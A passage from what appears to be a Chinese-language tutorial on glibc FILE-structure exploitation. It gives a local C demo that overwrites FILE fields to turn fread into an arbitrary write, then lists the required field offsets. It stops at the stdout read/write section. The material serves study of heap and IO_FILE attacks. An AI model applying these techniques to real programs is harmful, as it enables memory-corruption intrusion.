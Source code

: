 ```c
    *(size_t *)((char *)fp + 0x8) = 0;
    *(size_t *)((char *)fp + 0x10) = 0;

    // 2.设置fp->_flags & _IO_NO_READS为假，由于_IO_NO_READS为4，那么倒数第二字节为0
    *(size_t *)((short *)fp) = 0;

    // 3.设置fileno为0，由此将会从标准输入读取数据
    *(size_t*)((char*)fp + 0x70) = 0;

    // 4.由fp->_IO_buf_end和fp->_IO_buf_base来设置通过read写入的位置，其中fp->_IO_buf_base为写入的起始位置，end要比写入的结束位置略大
    *(size_t*)((char*)fp + 0x38) = (size_t)secret;
    *(size_t*)((char*)fp + 0x40) = (size_t)secret + 0x6;

    // 调用fread触发read系统调用
    fread(content, 1, 0x5, fp);
    // fgets(junk, 0x5, fp);

    if(*secret == 0){
        printf("Dave, my mind is going...\n");
    }else{
        printf("The secret is %s, how dare you?\n", secret);
    }
    
    fclose(fp);
    return;
}

int main()
{
    char *secret = (char *)malloc(0x20);
    memset(secret, 0, 0x20);
    printf("--- Let's see the normal process... --- \n");
    normal_process(secret);
    printf("--- Now we try to make a arbitry write... ---\n");
    arbitry_write(secret);
    return 0;
}
```

最后，我们总结一下使用`stdin`进行任意写的条件，以供快速查阅：

- `fp -> _IO_read_end == fp -> _IO_read_ptr`，偏移分别为`0x10`和`0x8`
- `fp -> _flags & _IO_NO_READS`为假，由于`_IO_NO_READS`为`4`，那么需要设置倒数第二字节为`0`.
- `fp -> _fileno == 0`，其偏移为`0x70`
- `fp -> _IO_buf_base`和`fp -> _IO_buf_end`指向要通过`read`写入的位置，且要略大于要读入的字节数。偏移为`0x38`和`0x40`。

## 使用stdout标准输出进行任意读写

`stdin`是将输入数据拷贝到缓冲区，而`stdout`会先将数据拷贝到缓冲区，然后将缓冲区数据进行输出。因此，若我们能够劫持`stdout`，那么既可以进行任意写，也可以进行任意读。

### 任意写
